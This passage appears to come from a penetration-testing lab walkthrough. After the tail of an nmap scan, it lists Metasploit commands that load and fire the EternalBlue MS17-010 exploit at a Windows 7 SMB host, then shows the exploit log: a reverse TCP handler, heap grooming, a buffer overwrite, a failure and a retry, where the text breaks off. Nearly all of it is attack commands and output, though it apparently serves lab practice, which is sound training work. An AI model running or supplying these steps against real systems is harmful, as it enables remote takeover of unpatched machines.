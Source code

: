 ```

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds
```

```shell
msfconsole -q
```

```shell
search eternalblue
```

```shell
use exploit/windows/smb/ms17_010_eternalblue
```

```shell
set RHOSTS <IP>
```

```shell
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.5.199:4444 
[*] 192.168.5.141:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.5.141:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.5.141:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.5.141:445 - The target is vulnerable.
[*] 192.168.5.141:445 - Connecting to target for exploitation.
[+] 192.168.5.141:445 - Connection established for exploitation.
[+] 192.168.5.141:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.5.141:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.5.141:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.5.141:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.5.141:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.5.141:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.5.141:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.5.141:445 - Sending all but last fragment of exploit packet
[*] 192.168.5.141:445 - Starting non-paged pool grooming
[+] 192.168.5.141:445 - Sending SMBv2 buffers
[+] 192.168.5.141:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.5.141:445 - Sending final SMBv2 buffers.
[*] 192.168.5.141:445 - Sending last fragment of exploit packet!
[*] 192.168.5.141:445 - Receiving response from exploit packet
[+] 192.168.5.141:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.5.141:445 - Sending egg to corrupted connection.
[*] 192.168.5.141:445 - Triggering free of corrupted buffer.
[-] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.5.141:445 - Connecting to target for exploitation.
[+] 192.168.5.141:445 - Connection established for exploitation.
[+] 192.168.5.141:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.5.141:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.5.141:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.5.141:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
```